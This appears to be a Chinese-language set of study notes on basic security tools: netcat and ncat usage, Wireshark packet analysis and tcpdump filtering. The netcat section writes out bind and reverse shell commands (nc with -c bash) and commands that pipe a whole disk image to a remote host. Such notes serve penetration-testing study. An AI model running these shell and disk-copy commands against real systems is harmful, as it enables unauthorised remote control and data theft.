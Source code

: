 # 基本工具

### 1.netcat(nc) 
      
	-v 显示详细输出内容  
	-n 跟IP地址，不进行DNS解析  
	-l 打开一个listen端口   
	-p 端口号   
	-q n 当标准输出完成后延迟n秒断开   
	-z 扫描模式，不做I/O操作   
    
#### (1)telnet/banner   
	nc -vn ip地址 端口号   
	pop3(110)   
	smtp(25)   
	http(80)   
   
#### (2)传输文本信息   
	sudo nc -l -p 333 (sudo netstat -pantu | grep 333)   
	可用于电子取证,直接传送，不在当前设备保存   
	如： 连接端：ls -l | nc -nv 10.1.1.12 333   
		 打开端：nc -l -p 333 > content.txt   
		    
#### (3)传输文件/目录   
#### 文件：    
	A: nc -lp 333 > 1/mp4   
	B: nc -nv 1.1.1.1 333 < 1.mp4 -q 1   
	或   
	A: nc -q 1 -lp 333 < a.mp4   
	B: nc -nv 1.1.1.1 333 > 2.mp4   
#### 目录：   
	A: tar -cvf - music/ | nc -lp 333 -q 1   
	B: nc -nv 1.1.1.1 333 | tar -xvf -   
#### 加密传文件：  
	A: nc -lp 333 | mcrypt --flush -Fbqd -a rijindael-256 -m ecb > 1.mp4   
	B: mcrypt --flush -Fbq -a rijindael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1   
   
#### (4)流媒体服务器   
	A: cat 1.mp4 | nc -lp 333   
	B: nc -vn 1.1.1.1 333 | mpalyer -vo x11 -cache 3000 -   
   
#### (5)端口扫描(扫描器的结果都不一定是正确的)   
	nc -nvz 1.1.1.1 1-65535   
	默认探测tcp端口，加上u选项探测udp端口   
	nc -vnzu 1.1.1.1 1-1024   

#### (6)远程克隆硬盘   
	A: nc -lp 333 | dd of=/dev/sda   
	B: dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1   
	远程电子取证，可以将目标服务器硬盘远程复制，或者内存   
	不仅是文件，每个磁道，包括已标记删除的信息,完整的硬盘复制   

#### (7)远程控制   
#### 正向：   
	A: nc -lp 333 -c bash   
	B: nc 1.1.1.1 333   
#### 反向：   
	A: nc -lp 333   
	B: nc 1.1.1.1 333 -c bash   
*注： Windows用户把bash改成cmd*   

### 2.ncat   
**nc的缺点：**   
	nc缺乏加密和身份验证的能力   
	    
ncat包含于nmap工具包中   
     
	--allow 允许连接的IP地址   
	A: ncat -c bash --allow 192.168.20.14 -vnl 333 --ssl(用ssl加密)   
	B: ncat -nv 1.1.1.1 333 --ssl   
	     
注：不同系统/平台的nc参数功能不尽相同   

### 3.wireshark   
manjaro安装GUI版本：   
	yaourt -S wireshark-qt   
需用sudo wireshark图形化版本以顺利使用全部功能   
抓包嗅探协议分析   
安全专家必备的技能   
抓包引擎   
* Libpcap9——Linux   
* Winpcap10——Windows   
解码能力(衡量抓包工具优劣的重要指标)   
若不勾选使用混杂模式，不会抓取发送给本地IP地址之外的包   
   
#### 筛选器：    
	过滤掉干扰的数据包   
	抓包过滤器：抓包时过滤   
	显示过滤器：显示时过滤，往往用的更多   
	Network -> Capture Filters -> Capture Engine -> Display Filter   

实时抓包，停止后可以保存，建议使用pcap格式(兼容性较高)   
Edit -> Preferences调整界面布局等首选项内容   

TTL(Time to live)   
#### 常见协议包：   
	数据包的分层结构(统计信息、二层报头、三层报头、四层报头...)   
	ARP,ICMP,TCP,UDP,DNS,HTTP,FTP...   
	IP是三层报头   
	四层协议不仅是TCP(Protocol:6)和UDP(17)两种协议,0-255,ICMP(1),IGMP(2)...   
	二层报头先是源地址再是目的地址，三层报头先是目的地址再是源地址   
	TCP的三次握手: [SYN], [SYN, ACK], [ACK]   
	TCP开销相对于UDP较大   
	DNS是基于四层UDP协议之上的应用层协议,域名解析   
	HTTP是基于TCP协议的应用层协议   
		HTTP/1.1\r\n结尾   
	FTP也是基于TCP协议的应用层协议   
	wireshark默认通过端口来识别协议，如HTTP通常在80，若在8080则不会按HTTP解析，可以右键选择decode as来手动选择协议   
   
#### 数据流：   
	HTTP、SMTP、POP3、SSL   
	更清晰地看到访问过程   
	右键包 follow xxx stream   
	HTTP,SMTP,POP3基本上是完全明文传输的，提倡用SSL(Secure Sockets Layer)等加密   
	SSL加密通信过程中，最初的几个包进行SSL公钥传输及加密秘钥的交换，信息会以明文形式传输，但这些信息无法用于解密   

#### 信息统计：   
	wireshark官网下有各类协议的学习文件   
	大多statistics菜单下   
	Summary 抓包文件的摘要信息   
	Endpoints 了解当前这些包中一共有几个IP地址   
	Protocol Hierarchy 可查看当前抓的数据包都是什么协议类型   
		DNS占比过大时往往不正常   
	Conversation 查看两台机期间产生的会话及产生的数据量(查看中僵尸程序的服务器)   
	Expert Info 专家系统信息提示   
   
wireshark抓大流量时略有欠缺,但应用很广，有很多基于wireshark开发的抓包软件   
#### 企业抓包部署方案：   
	Sniffer   
	Cace/riverbed   
	Cascad pilot   
	全流量抓包，需要一个镜像端口   
   
### 4.tcpdump   
no-GUI的抓包分析工具   
Linux、Unix系统默认安装(说是这么说但是manjaro下没有，pacman安装一下即可)   
   
#### 抓包：   
    默认只抓68个字节   
    -i interface   
    -s snaplen 大小   
    -w file   
    tcpdump -i eth0 -s 0 -w file.pcap   
    tcpdump -i eth0 port 22 (筛选器)   
   
#### 读取抓包文件：   
    tcpdump [-A] -r file.pcap   
    -A 以ascii码显示   
    -X 以十六进制显示   
   
#### 筛选：   
    -n 不解析域名，显示IP地址   
    用管道:   
        tcpdump -n -r http.cap | awk'{print $3}' | sort -u   
    按来源IP:   
        tcpdump -n src host 145.254.160.237 -r http.cap   
    按目标IP:   
        tcpdump -n dst host 145.254.160.237 -r http.cap   
    按端口号:   
        tcpdump -n port 53 -r http.cap   
        tcpdump -nX port 80 -r http.cap   
    高级筛选:   
        按位01转化成十进制数,规定第x个字节的值   
        tcpdump -A -n 'tcp[13] = 24' -r http.cap   
